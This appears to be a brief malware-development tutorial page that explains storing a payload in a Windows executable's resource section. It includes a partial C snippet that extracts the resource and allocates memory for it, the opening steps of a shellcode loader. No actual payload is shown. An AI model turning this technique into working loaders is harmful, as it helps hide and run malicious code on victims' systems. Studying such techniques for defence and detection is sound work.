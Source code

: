 # Storing Payloads in .rsc

This method of storing the payload revolves around the use of a byte string
that resides inside of the resources section of the executable itself.
```
#include "resources.h"
(...)

int main(void)
{
    (...)

    // Extract payload from resources section
    res = FindResourceA(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
    HGLOBAL hRes = LoadResource(NULL, res);

    // Create payload
    unsigned char* payload = (unsigned char *)LockResource(hRes);
    size_t payload_size = SizeofResource(NULL, res);

    // Allocate a memory buffer for payload
    exec_mem = VirtualAlloc(NULL, payload_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    (...)
```
